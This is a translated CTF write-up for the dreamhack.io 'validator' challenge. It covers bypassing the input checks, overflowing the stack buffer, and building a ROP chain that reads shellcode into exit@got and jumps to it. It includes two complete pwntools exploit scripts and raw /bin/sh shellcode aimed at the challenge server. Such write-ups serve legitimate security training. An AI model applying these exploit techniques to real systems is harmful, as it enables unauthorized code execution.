




# dreamhack.io: validator

> Originally published on [Naver Blog](https://blog.naver.com/chaeeunhur630/224319758171). Translated and reformatted in English.

First, check the binary’s protection technique.

No Canary → Return address can be overwritten with stack overflow

NX Disabled → Possible to execute shellcode written in writable area such as GOT

No PIE → gadget, PLT, and GOT addresses are fixed.

Partial RELRO / No RELRO → Write possible in GOT area

In this problem, the NX Disabled and GOT writable conditions are especially important because the shellcode is written directly in the exit@got area and jumps to the corresponding address.

Based on IDA pseudocode, the main function has the following form. Since there was no source code, I used Aida decoding.

The core flow is as follows.

1. The program receives up to 0x400 bytes as stdin.

2. The validator function for the input value is executed.

3. If the validator conditions are met, the main function returns.

4. However, the input buffer is 128 bytes, but the read size is 0x400 bytes, so a stack overflow occurs.

5. Cover the return address with the ROP chain.

6. Call read(0, exit@got, 0x150) with ROP chain.

7. Write the shellcode to exit@got as the second input.

8. After reading is complete, jump to exit@got and execute the shellcode.

9. Acquire the shell.

Therefore, if input exceeding 128 bytes is entered, the saved RBP and return address can be covered.

The x64 standard stack structure is usually as follows.

s[128]

saved RBP 8 bytes

return address 8 bytes

Therefore, the offset to reach the return address is as follows.

128 + 8 = 136 bytes

In other words, fill in the first 136 bytes of the payload and then place the ROP chain from there.

The first loop checks the first 10 bytes of the input.

for (i = 0; i <= 9; ++i) {

if (s[i] != aDreamhack[i])

exit(0);

}

If you check the aDreamhack string in IDA, the first 10 bytes required by the problem are as follows.

DREAMHACK!

Therefore, the payload must start with the following string.

payload = b"DREAMHACK!"

The length is exactly 10 bytes.

D R E A M H A C K !

0 1 2 3 4 5 6 7 8 9

The second loop starts from j = 11.

for (j = 11; a2 > j; ++j) {

if (s[j] != s[j + 1] + 1)

exit(0);

}

Here a2 is 0x80, that is, 128. Therefore, the loop range is as follows.

j = 11 ~ 127

The condition is: s[j] == s[j + 1] + 1

That is, the current byte must be exactly 1 larger than the next byte.

For example, the following form satisfies the condition:

119, 118, 117, 116, ..., 1

Looking at the payload structure:

s[0] ~ s[9] = DREAMHACK! s[10] = 119 s[11] = 118 s[12] = 117 ...

Because validation starts at `s[11]`:

s[11] == s[12] + 1

118 == 117 + 1

satisfies the conditions.

The current payload length is 129 bytes.

payload = b"DREAMHACK!" payload += bytes(range(119, 0, -1))

10 + 119 = 129 bytes

136 bytes are required to reach the return address.

buffer 128 bytes + saved RBP 8 bytes = 136 bytes

Therefore, add seven more bytes of padding.

payload += b"a" * 7

Finally, the payload length before the ROP chain starts is as follows.

129 + 7 = 136 bytes

That is, the next 8 bytes cover the return address.

Find ROP Gadgets

Find the gadget you need with ROPgadget.

ROPgadget --binary ./validator_server --re "pop rdi"

Result:

0x00000000004006f3 : pop rdi ; ret

Next, find the pop rsi gadget.

ROPgadget --binary ./validator_server --re "pop rsi"

Result:

0x00000000004006f1 : pop rsi ; pop r15 ; ret

This gadget pops not only rsi but also r15.

Therefore, two values must be entered in the ROP chain.

Next, find the pop rdx gadget.

ROPgadget --binary ./validator_server --re "pop rdx"

Result:

0x000000000040057b : pop rdx ; ret

The gadgets that will ultimately be used are as follows.

pop_rdi = 0x004006f3 pop_rsi_r15 = 0x004006f1 pop_rdx = 0x0040057b

read@plt

e.plt['read'] is the read@plt address.

PLT is a stub for calling external functions.

If you move to read@plt in the ROP chain, you can call the actual read().

payload += p64(e.plt['read'])

At this point, if the registers are set as follows:

RDI = 0 RSI = exit@got RDX = 0x150

In reality, the following function is called:

read(0, exit@got, 0x150);

Now we configure the ROP chain.

payload += p64(pop_rdi) + p64(0)

This part does the following:

RDI = 0

In other words, the file descriptor, the first argument of read(), is set to stdin.

read(0, ...);

Next is the RSI settings.

payload += p64(pop_rsi_r15) + p64(e.got['exit']) + p64(0)

pop rsi ; pop r15 ; Since it is a ret gadget, you must enter two values.

RSI = exit@got R15 = 0

R15 is not used in the exploit.

Just because the gadget includes pop r15, enter 0 as the dummy value.

The following are the RDX settings.

payload += p64(pop_rdx) + p64(0x150)

Result:

RDX = 0x150

Now that the argument setting is complete, call read@plt.

payload += p64(e.plt['read'])

As a result, the following function is executed:

read(0, exit@got, 0x150);

Lastly, enter the address to jump to after read() is finished.

payload += p64(e.got['exit'])

In other words, when read() returns, RIP becomes exit@got.

Final Exploit Code

from pwn import *
p = remote('host3.dreamhack.games', 22617)

e = ELF("./validator_server")

context.arch = "amd64"
shellcode = asm(shellcraft.sh())

pop_rdi = 0x004006f3
pop_rsi_r15 = 0x004006f1
pop_rdx = 0x0040057b

payload = b"DREAMHACK!" #10 bytes
list = []

for i in range(119, 0, -1): # 119 bytes
 list.append(i)

payload += bytes(list)
payload += b'a'*7 # Add 7 to match 8 bytes from 129 bytes

payload += p64(pop_rdi) + p64(0)
payload += p64(pop_rsi_r15) + p64(e.got['exit']) + p64(0)
payload += p64(pop_rdx) + p64(0x150) + p64(e.plt['read'])
payload += p64(e.got['exit'])

p.send(payload)
p.send(shellcode)

p.interactive()

GNU binutils produced an error in the local environment, so the required instruction bytes were derived separately.

from pwn import *

context.clear(arch='amd64', os='linux')

p = remote('host3.dreamhack.games', 22617)
e = ELF("./validator_server")

shellcode = (
 b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e"
 b"\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58"
 b"\x99\x0f\x05"
)

pop_rdi = 0x004006f3
pop_rsi_r15 = 0x004006f1
pop_rdx = 0x0040057b

payload = b"DREAMHACK!"
payload += bytes(range(119, 0, -1))
payload += b'a' * 7

payload += p64(pop_rdi) + p64(0)
payload += p64(pop_rsi_r15) + p64(e.got['exit']) + p64(0)
payload += p64(pop_rdx) + p64(0x150) + p64(e.plt['read'])
payload += p64(e.got['exit'])

p.send(payload)
p.send(shellcode)

p.interactive()

Kkkkkkkkkkkkkkkkkkkkkkkkk
